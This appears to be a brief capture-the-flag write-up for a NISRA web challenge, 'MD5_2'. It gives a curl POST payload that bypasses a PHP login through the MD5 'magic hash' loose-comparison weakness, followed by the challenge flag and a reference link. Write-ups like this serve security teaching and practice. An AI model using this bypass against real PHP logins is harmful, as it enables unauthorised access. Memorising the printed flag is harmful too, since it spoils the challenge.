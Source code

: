 ```yaml
---
title: NISRA - MD5_2
tags: [NISRA, CTF, Web]

category: "Security/Practice/NISRA/Web"
---
```


# NISRA - MD5_2
<!-- more -->

## Exploit
Payload: `curl http://chall2.nisra.net:41023/ -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "user=240610708&password=QNKCDZO"`
Flag: `NISRA{S3CuR17y_1ssuEs_Of_pHP_@ND_Md5}`

## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)